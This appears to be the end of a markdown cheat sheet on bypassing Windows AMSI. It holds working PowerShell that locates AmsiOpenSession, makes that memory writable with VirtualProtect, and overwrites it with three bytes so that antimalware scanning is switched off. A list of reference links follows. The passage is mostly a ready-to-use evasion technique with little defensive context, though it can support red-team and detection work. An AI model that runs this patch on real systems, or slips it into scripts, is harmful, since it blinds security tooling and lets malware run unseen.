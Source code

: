 ```PowerShell

    $type.DefineConstructor('RTSpecialName, HideBySig, Public', [System.Reflection.CallingConventions]::Standard, $func).SetImplementationFlags('Runtime, Managed')
    $type.DefineMethod('Invoke', 'Public, HideBySig, NewSlot, Virtual', $delType, $func).SetImplementationFlags('Runtime, Managed')

    return $type.CreateType()
}

[IntPtr]$amsiAddr = lookFuncAddr amsi.dll AmsiOpenSession
$oldProtect = 0
$vp=[System.Runtime.InteropServices.Marshal]::GetDelegateForFunctionPointer((lookFuncAddr kernel32.dll VirtualProtect),
(getDelegateType @([IntPtr], [UInt32], [UInt32], [UInt32].MakeByRefType()) ([Bool])))

$vp.Invoke($amsiAddr, 3, 0x40, [ref]$oldProtect)

$3b = [Byte[]] (0x48, 0x31, 0xC0)
[System.Runtime.InteropServices.Marshal]::Copy($3b, 0, $amsiAddr, 3)

$vp.Invoke($amsiAddr, 3, 0x20, [ref]$oldProtect)
```

* Reference
    * [Tearing AMSI Down With 3 Bytes Only](https://www.blazeinfosec.com/post/tearing-amsi-with-3-bytes/)

---

## References

* [Antimalware Scan Interface (AMSI)](https://learn.microsoft.com/en-us/windows/win32/amsi/antimalware-scan-interface-portal)
* [How the AMSI helps you defend against malware](https://learn.microsoft.com/en-us/windows/win32/amsi/how-amsi-helps)
* [Detecting Windows AMSI Bypass Techniques](https://www.trendmicro.com/en_us/research/22/l/detecting-windows-amsi-bypass-techniques.html)
* [AMSI Bypass Methods (pentestlaboratories)](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
* AMSI Unchained Review of Known AMSI Bypass Techniques and Introducing a New One (BlackHat Asia 2022)
* [Amsi-Bypass-Powershell](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell)
* [A Detailed Guide on AMSI Bypass](https://www.hackingarticles.in/a-detailed-guide-on-amsi-bypass/)
